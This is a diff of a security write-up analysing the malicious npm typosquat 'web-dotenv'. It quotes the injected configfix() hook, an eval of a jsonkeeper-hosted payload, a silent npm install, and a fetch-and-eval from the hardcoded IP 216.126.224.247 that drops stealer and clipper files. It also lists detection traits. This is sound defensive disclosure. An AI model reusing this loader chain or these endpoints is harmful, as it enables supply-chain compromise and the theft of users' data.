

Before and after one commit to atomdrift-project/website, a Markdown page: src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md
+++ b/src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md
@@ -22,31 +19,23 @@ The diff against the cloned `dotenv` source is two lines. A new top-level helper
 
-…and a single call to it, wedged into the first line of `config()`:
-
-<pre class="lang-js"><code><span class="tok-kw">function</span> <span class="tok-fn">config</span> (options) {
+<span class="tok-kw">function</span> <span class="tok-fn">config</span> (options) {
   <span class="tok-com">// fallback to fixed config</span>
   <span class="tok-fn">configfix</span>();
-  <span class="tok-com">// fallback to original dotenv if DOTENV_KEY is not set</span>
   ...
 }
 </code></pre>
 
-The base64 decodes to `\thttps://www.jsonkeeper.com/b/VKUNI` (note the leading tab — the obfuscation is barely above stylistic). `jsonkeeper.com` is a free anonymous JSON paste service; the bin returns `{"content":"<obfuscated JS>"}` which `eval` runs.
-
-There is no `postinstall`. The chain fires on *application start*, the moment any code path reaches `dotenv.config()`. Registry scanners that look for `scripts.postinstall` see nothing. CI lockfile audits see nothing. The trigger is the most banal line in a Node app's `index.js`.
-
-The author also iterated: `web-dotenv@1.0.0` (2026-05-22) shipped the entire Stage 2 obfuscator inline inside `configfix()`. Three days later, `1.0.2` outsourced it to jsonkeeper — smaller tarball, mutable payload, the body of `configfix()` now one line instead of two thousand characters. The intent of the change is in the diff.
+The base64 (with a leading tab, the only nod to obfuscation) decodes to `\thttps://www.jsonkeeper.com/b/VKUNI`; the bin returns `{"content":"<obfuscated JS>"}` and `eval` runs it. There is no `postinstall` — the chain fires the first time any code path reaches `dotenv.config()`, so registry scanners and lockfile audits both see nothing. The author iterated visibly: `1.0.0` (2026-05-22) inlined the entire Stage 2 obfuscator inside `configfix()`; three days later `1.0.2` outsourced it to jsonkeeper for a smaller tarball and a mutable payload.
 
 | | Trait | What it caught |
 | --- | --- | --- |
-| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/stager/runtime/library-init` | Payload chain fires from `config()` on app start, not `postinstall` |
-| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/dropper/delivery/paste-site` | `jsonkeeper.com/b/VKUNI` as Stage 2 host |
-| <span class="sev-dot hostile" title="hostile"></span> | `defense-evasion/dynamic-code/eval/network` | `eval(r.data.content)` of a fetched HTTP body |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/string/encoding` | `atob('CWh0dHBz…')` on a literal URL |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `initial-access/supply-chain/typosquat/npm` | One-prefix lookalike of `dotenv` |
+| <span class="sev-dot hostile" title="hostile"></span> | `supply-chain/install-hook/build/build-system-trojan` | `configfix()` injected into the upstream `dotenv` library init |
+| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/remote-command/protocol/eval-http-response-data` | `eval(r.data.content)` on a fetched HTTP body |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/encoding/content/malware` | `atob('CWh0dHBz…')` masking the Stage-2 URL |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `supply-chain/recon-exfil/npm-install-targeting` | Name-prefix lookalike of `dotenv` |
 
 ## Stage 2: the jsonkeeper loader
 
-The bin at `jsonkeeper.com/b/VKUNI` is 19 KB of obfuscator.io output — a 237-entry string array, an RC4-ish decoder, the usual array-rotation IIFE. Stepped through in an instrumented sandbox it does exactly two things:
+The bin is 19 KB of obfuscator.io output — a 237-entry string array and the standard array-rotation IIFE around an RC4-ish decoder. Stepped through in an instrumented sandbox it does exactly two things:
 
 <pre class="lang-js"><code><span class="tok-fn">execSync</span>(
   <span class="tok-str">'npm install axios socket.io-client --no-warnings --no-save --no-progress --loglevel silent'</span>,
@@ -58,21 +47,18 @@ The bin at `jsonkeeper.com/b/VKUNI` is 19 KB of obfuscator.io output — a 237-e
 ).<span class="tok-fn">then</span>(r =&gt; <span class="tok-fn">eval</span>(r.data));
 </code></pre>
 
-The hex tail `329f753d052f978a486cdce9896050bb` is the campaign / build identifier; it reappears as the `uid` field in every Stage-3 exfil packet. `--no-save` keeps `package.json` and `package-lock.json` clean; the dependencies land under `$TMPDIR/node_modules/` and are picked up by the eval'd Stage 3 via Node's parent-directory resolution. `socket.io-client` is pre-positioned but unused by Stage 3 as shipped — wiring for a future iteration.
-
-The whole stage is a tee-up: install runtime deps the next stage will need, then fetch and run the next stage.
+`--no-save` keeps `package.json` and `package-lock.json` clean; the runtime deps land under `$TMPDIR/node_modules/` and Node finds them via parent-directory resolution from the next stage. The hex tail `329f753d052f978a486cdce9896050bb` is the campaign identifier and reappears as the `uid` field in every Stage-3 exfil packet. `socket.io-client` is pre-positioned but unused by Stage 3 as shipped — wiring for a later iteration.
 
 | | Trait | What it caught |
 | --- | --- | --- |
-| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/stager/dependency/runtime-install` | Silent `npm install` into `os.tmpdir()` |
-| <span class="sev-dot hostile" title="hostile"></span> | `defense-evasion/dynamic-code/eval/network` | `eval` of HTTP body from a hardcoded IP |
+| <span class="sev-dot hostile" title="hostile"></span> | `command-and-control/remote-command/protocol/eval-http-response-data` | `eval` of HTTP body from a hardcoded IP |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `command-and-control/dropper/execution/network-stage/fetch-write-exec` | Silent `npm install` of runtime deps into `os.tmpdir()` before fetching Stage 3 |
+| <span class="sev-dot suspicious" title="suspicious"></span> | `anti-static/obfuscation/tools/js-obfuscator/decoder-loop-keyword-triad` | Obfuscator.io string-array, decoder, and `while(!![])` rotation |
 | <span class="sev-dot suspicious" title="suspicious"></span> | `command-and-control/infrastructure/ip-port` | `http://216.126.224.247/` hardcoded, no DNS |
-| <span class="sev-dot suspicious" title="suspicious"></span> | `discovery/campaign/identifier/uid` | `329f753d052f978a486cdce9896050bb` as campaign tag |
-| <span class="sev-dot notable" title="notable"></span> | `anti-static/obfuscator-io/string-array/rc4` | Standard obfuscator.io string-array + RC4 decoder |
 
 ## Stage 3: stealer + clipper
 
-The response body from `216.126.224.247` is 110 KB of the same obfuscator.io style. It writes two files to `os.tmpdir()` and detaches them:
+The body from `216.126.224.247` is 110 KB of the same obfuscator style. It writes two files to `os.tmpdir()` and detaches them:
 
 <pre class="lang-js"><code>fs.<span class="tok-fn">writeFile</span>(path.<span class="tok-fn">join</span>(os.<span class="tok-fn">tmpdir</span>(), <span class="tok-str">'scdata'</span>), &lt;stealer&gt;);
 fs.<span class="tok-fn">writeFile</span>(path.<span class="tok-fn">join</span>(os.<span class="tok-fn">tmpdir</span>(), <span class="tok-str">'ldata'</span>),  &lt;clipper&gt;);
```
Also changed, not shown: other parts of src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md (+21 -52 lines).
